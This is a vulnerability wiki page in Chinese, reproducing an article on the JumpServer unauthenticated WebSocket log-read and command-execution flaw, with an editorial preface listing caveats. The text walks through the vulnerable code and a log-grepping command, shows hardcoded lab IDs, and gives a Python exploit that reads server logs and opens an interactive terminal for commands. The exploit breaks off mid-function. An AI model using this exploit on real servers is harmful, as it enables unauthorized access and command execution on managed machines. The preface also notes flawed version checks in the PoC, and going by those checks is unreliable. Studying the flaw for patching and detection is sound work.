# JumpServer 未授权接口 远程命令执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Branch-specific vulnerable builds (<2.6.2,<2.5.4,<2.4.5,1.5.9 stated); logs expose user/asset/system_user IDs; configured asset
- 证据范围：Log-read/token/WebSocket terminal chain with code and difficulty caveat; command execution on managed assets not necessarily core service

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Version comparisons need branch bounds; as flat OR ranges falsely include fixed2.4/2.5 builds
- POC incorrectly treats401/403/404 response as proof unpatched and other responses as patched
- str.strip('http://') is character stripping, not URL prefix removal; https/wss unsupported as written
- Hardcoded UUIDs and magic message counts are lab-specific
- Execution scope should distinguish asset session privileges from JumpServer host RCE
- Preserve admission that required IDs often absent from logs

### 操作风险与资料使用

- 含资源消耗、延时或崩溃验证：可能影响服务可用性；限制请求次数、并发与超时，保留无攻击负载的对照结果。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/5q4cSlHUQ3NejkRg3vOWUA)

**点击蓝字**


**关注我们**

  

**_声明  
_**

本文作者：PeiQi  
本文字数：2839

阅读时长：15min

附件 / 链接：点击查看原文下载

声明：请勿用作违法用途，否则后果自负

本文属于 WgpSec 原创奖励计划，未经许可禁止转载

  

  

**_前言_**

  



一、

漏洞描述
----

JumpServer 是全球首款完全开源的堡垒机, 使用 GNU GPL v2.0 开源协议, 是符合 4A 的专业运维审计系统。JumpServer 使用 Python / Django 进行开发。2021 年 1 月 15 日，阿里云应急响应中心监控到开源堡垒机 JumpServer 发布更新，修复了一处远程命令执行漏洞。由于 JumpServer 某些接口未做授权限制，攻击者可构造恶意请求获取到日志文件获取敏感信息，或者执行相关 API 操作控制其中所有机器。  

二、

漏洞影响
----

JumpServer < v2.6.2

JumpServer < v2.5.4

JumpServer < v2.4.5

JumpServer = v1.5.9

**三、**

漏洞复现
----

进入后台添加配置

**资产管理 -->  系统用户**



**资产管理 --> 管理用户**



**用户管理 --> 用户列表**



**资产管理 --> 资产列表**



查看一下项目代码提交变动



```python
import time
import os
import threading
import json

from common.utils import get_logger

from .celery.utils import get_celery_task_log_path
from channels.generic.websocket import JsonWebsocketConsumer

logger = get_logger(__name__)


class CeleryLogWebsocket(JsonWebsocketConsumer):
    disconnected = False

    def connect(self):
        user = self.scope["user"]
        if user.is_authenticated and user.is_org_admin:
            self.accept()
        else:
            self.close()

    def receive(self, text_data=None, bytes_data=None, **kwargs):
        data = json.loads(text_data)
        task_id = data.get("task")
        if task_id:
            self.handle_task(task_id)

    def wait_util_log_path_exist(self, task_id):
        log_path = get_celery_task_log_path(task_id)
        while not self.disconnected:
            if not os.path.exists(log_path):
                self.send_json({'message': '.', 'task': task_id})
                time.sleep(0.5)
                continue
            self.send_json({'message': '\r\n'})
            try:
                logger.debug('Task log path: {}'.format(log_path))
                task_log_f = open(log_path, 'rb')
                return task_log_f
            except OSError:
                return None

    def read_log_file(self, task_id):
        task_log_f = self.wait_util_log_path_exist(task_id)
        if not task_log_f:
            logger.debug('Task log file is None: {}'.format(task_id))
            return

        task_end_mark = []
        while not self.disconnected:
            data = task_log_f.read(4096)
            if data:
                data = data.replace(b'\n', b'\r\n')
                self.send_json(
                    {'message': data.decode(errors='ignore'), 'task': task_id}
                )
                if data.find(b'succeeded in') != -1:
                    task_end_mark.append(1)
                if data.find(bytes(task_id, 'utf8')) != -1:
                    task_end_mark.append(1)
            elif len(task_end_mark) == 2:
                logger.debug('Task log end: {}'.format(task_id))
                break
            time.sleep(0.2)
        task_log_f.close()

    def handle_task(self, task_id):
        logger.info("Task id: {}".format(task_id))
        thread = threading.Thread(target=self.read_log_file, args=(task_id,))
        thread.start()

    def disconnect(self, close_code):
        self.disconnected = True
        self.close()
```

新版对用户进行了一个判断，可以使用 谷歌插件 WebSocket King 连接上这个 websocket 进行日志读取



比如 send 这里获取的 Task id , 这里是可以获得一些敏感的信息的



查看一下连接 Web 终端的后端 api 代码



可以看到这里调用时必须需要 **user asset system_user** 这三个值，再获取一个 20 秒的 **token**

访问 web 终端后查看日志的调用



```shell
docker exec -it (jumpserve/core的docker) /bin/bash
cat gunicorn.log | grep /api/v1/perms/asset-permissions/user/validate/?
```



```
assset_id=ee7e7446-6df7-4f60-b551-40a241958451
system_user_id=d89bd097-b7e7-4616-9422-766c6e4fcdb8  
user_id=efede3f4-8659-4daa-8e95-9a841dbe82a8
```

可以看到在不同的时间访问这个接口的 asset_id 等都是一样的，所以只用在 **刚刚的未授权日志读取**里找到想要的这几个值就可以获得 token



试过了很多，部分可获取，大部分日志中很难找到这些值，利用难度还是挺高的



看一下 koko.js 这个前端文件



后端代码 https://github.com/jumpserver/koko/blob/e054394ffd13ac7c71a4ac980340749d9548f5e1/pkg/httpd/webserver.go



这里我们就可以通过 获得的 token 来模拟请求



成功连接模拟了这个 token 的请求, 可以在 Network 看一下流量是怎么发送的



模拟连接发送和接发数据



这里可以看到我们只要模拟了这个发送，返回的数据和 web 终端是一样的，那我们就可以通过这样的方法来进行命令执行了

漏洞利用 POC
--------

```
POC 里包含两个方法，一个是获取日志文件，另一个是命令执行

命令执行需要从日志中获取敏感数据并写入脚本对应的变量中 (这个感觉利用难度比较高吧，很多找不到这个数据)

接收数据如果卡住请调整 for i in range(7) 这个位置的 7
```

```python
import requests
import json
import sys
import time
import asyncio
import websockets
import re
from ws4py.client.threadedclient import WebSocketClient

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mPOC_Des: https://www.o2oxy.cn/                                    \033[0m')
    print('+  \033[34mVersion: JumpServer <= v2.6.1                                     \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                           \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                            \033[0m')
    print('+  \033[36mCmd         >>> whoami                                    \033[0m')
    print('+------------------------------------------')

class ws_long(WebSocketClient):

    def opened(self):
        req = '{"task":"/opt/jumpserver/logs/jumpserver"}'
        self.send(req)

    def closed(self, code, reason=None):
        print("Closed down:", code, reason)

    def received_message(self, resp):
        resp = json.loads(str(resp))
        # print(resp)
        data = resp['message']
        if "File" in data:
            data = ""
        print(data)


async def send_msg(websocket, _text):
    if _text == "exit":
        print(f'you have enter "exit", goodbye')
        await websocket.close(reason="user exit")
        return False
    await websocket.send(_text)
    recv_text = await websocket.recv()
    print(re.findall(r'"data":"(.*?)"', recv_text))


async def main_logic(target_url):
    print("\033[32m[o] 正在连接目标: {}\033[0m".format(target_url))
    async with websockets.connect(target_url) as websocket:
        recv_text = await websocket.recv()
        resws = json.loads(recv_text)
        id = resws['id']
        print("\033[36m[o] 成功获取 ID: {}\033[0m".format(id))

        inittext = json.dumps({"id": id, "type": "TERMINAL_INIT", "data": "{\"cols\":164,\"rows\":17}"})
        await send_msg(websocket, inittext)
        for i in range(7):
            recv_text = await websocket.recv()
            print(re.findall(r'"data":"(.*?)"', recv_text))

        while True:
            cmd = str(input("\033[35mcmd  >>> \033[0m"))
            cmdtext = json.dumps({"id": id, "type": "TERMINAL_DATA", "data": cmd + "\r\n"})
